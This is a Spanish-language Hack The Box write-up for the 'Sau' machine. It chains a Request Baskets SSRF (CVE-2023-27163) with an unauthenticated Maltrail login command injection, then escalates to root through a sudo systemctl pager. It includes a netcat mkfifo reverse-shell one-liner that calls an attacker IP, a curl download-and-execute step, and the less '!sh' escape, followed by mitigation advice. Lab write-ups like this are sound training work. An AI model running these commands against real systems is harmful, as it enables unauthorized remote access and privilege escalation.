






# Sau

[{ .maquina-icono }](https://app.hackthebox.com/machines/Sau)

## Resumen

Máquina Linux con un **Request Baskets 1.2.1** expuesto en el puerto 55555, vulnerable a
**CVE-2023-27163** (SSRF): permite reenviar peticiones a servicios internos. A través de él se
alcanza un **Maltrail** que solo escuchaba en `127.0.0.1`, afectado por una **inyección de
comandos** sin autenticar en el *login*. Encadenando ambas se consigue una *reverse shell* como
`puma` y la flag de usuario. La escalada a root es un clásico de **GTFOBins**: `sudo` permite
ejecutar `systemctl status trail.service`, que abre la salida en `less`; desde ahí, con `!sh`, se
obtiene una shell como root.

## Reconocimiento

Un ping para ver el TTL y el sistema operativo:

```
64 bytes from 10.129.229.26: icmp_seq=1 ttl=63 time=52.5 ms
```

TTL cercano a 64 (63) → máquina **Linux**.

### Enumeración de puertos

```
nmap -p- --open -T4 --min-rate 5000 10.129.229.26
```

```
22/tcp    open  ssh
55555/tcp open  unknown
```

Un SSH y un puerto **55555** inusual. Detallamos el servicio:

```
nmap -p 55555 -sVC -T4 --min-rate 5000 -Pn 10.129.229.26
```

De la salida, lo interesante: es un **servidor HTTP en Go**, redirige a `/web` y rechaza nombres
que no cumplen un patrón con el mensaje `invalid basket name`. Esa mención a **basket** es la pista.

## Enumeración

### La aplicación: Request Baskets

La web (`http://10.129.229.26:55555/web`) permite **crear cestas** (*baskets*) que capturan y
muestran peticiones HTTP; cada cesta se crea con su **token**. En el pie aparece la tecnología y
su versión:



**Request Baskets** (`darklynx/request-baskets`) es un servicio para recopilar e inspeccionar
peticiones HTTP arbitrarias.

### CVE-2023-27163 (SSRF)

La versión **1.2.1** es vulnerable a **CVE-2023-27163**: al crear una cesta se puede fijar su
`forward_url` hacia un servicio **interno** (por ejemplo `http://127.0.0.1`), y el servidor
reenvía las peticiones a ese destino. Es una **SSRF** que permite hablar con servicios que solo
escuchan en *loopback*.

Apuntando la cesta al propio host se descubre un servicio interno: **Maltrail** (un detector de
tráfico malicioso) escuchando solo en `127.0.0.1`.

## Explotación

Maltrail (en versiones antiguas) tiene una **inyección de comandos sin autenticar** en el
parámetro `username` de su `/login`. La idea es **encadenar** la SSRF de Request Baskets con esa
inyección para ejecutar comandos en la máquina.

Uso la prueba de concepto de
[CVE-2023-27163-POC](https://github.com/lukehebe/CVE-2023-27163-POC), que automatiza el encadenado:

- Reenvía a la **red interna** (`127.0.0.1`) mediante la cesta.
- Inyecta en `/login` un **comando** (un `curl` que descarga y ejecuta nuestra *reverse shell*).
- Añade las cabeceras necesarias para que la petición no sea rechazada y crea la cesta que conecta
  todo.

**Preparación del ataque:**

```
# 1) Servidor HTTP en la carpeta del exploit (sirve shell.sh)
python3 -m http.server 8000

# 2) Listener para la reverse shell
nc -lvnp 4444

# 3) shell.sh con la reverse (recomiendo mkfifo)
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.39 4444 >/tmp/f
```

Se lanza el exploit (en la carpeta del PoC) apuntando al objetivo y a nuestro `shell.sh`. El
servidor Python registra que la víctima **descarga** el fichero y, en el *listener*, recibimos la
shell como **`puma`**:



Leemos la flag de usuario:

```
cat ~/user.txt
```



```
USER FLAG -> [censurada]
```

## Escalada de privilegios

Revisamos qué puede ejecutar `puma` con `sudo`:

```
sudo -l
```



```
(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Puede ejecutar **`systemctl status`** como root sin contraseña. Cuando la salida de `systemctl`
no cabe en pantalla, se muestra con el *pager* **`less`**. Y `less` está en **GTFOBins**: desde su
interior se pueden ejecutar comandos con `!`. Como todo corre como root:

```
sudo /usr/bin/systemctl status trail.service
# dentro del pager less:
!sh
```



Ya somos **root**. Leemos la flag:

```
cd /root && cat root.txt
```



```
ROOT FLAG -> [censurada]
```

## Mitigación

- **Actualizar Request Baskets** para cerrar la **CVE-2023-27163** y no exponer el panel a
  Internet; validar y restringir los `forward_url` para que no apunten a direcciones internas.
- **Actualizar Maltrail** y no confiar en que un servicio esté "a salvo" por escuchar solo en
  `127.0.0.1`: una SSRF lo alcanza igual. Sanear el parámetro `username` del *login*.
- **Revisar las reglas de `sudo`**: permitir `systemctl status` sin contraseña abre la puerta al
  *pager* `less` y, con él, a una shell de root. Usar `--no-pager`, limitar los comandos, o no
  conceder ese `sudo`.
- Aplicar el **principio de mínimo privilegio**.

## Qué he aprendido

- Una **SSRF** vale justo para lo que parecía imposible: hablar con un servicio que solo escucha en
  `127.0.0.1`. Aquí fue el puente hacia el Maltrail interno.
- **Encadenar vulnerabilidades** (SSRF + inyección de comandos) es lo que convierte dos fallos
  "medianos" en una ejecución remota completa.
- La escalada recuerda que **el *pager* importa**: un `sudo systemctl status` abre `less`, y `less`
  es GTFOBins. Un detalle de configuración, no un exploit, da el root.
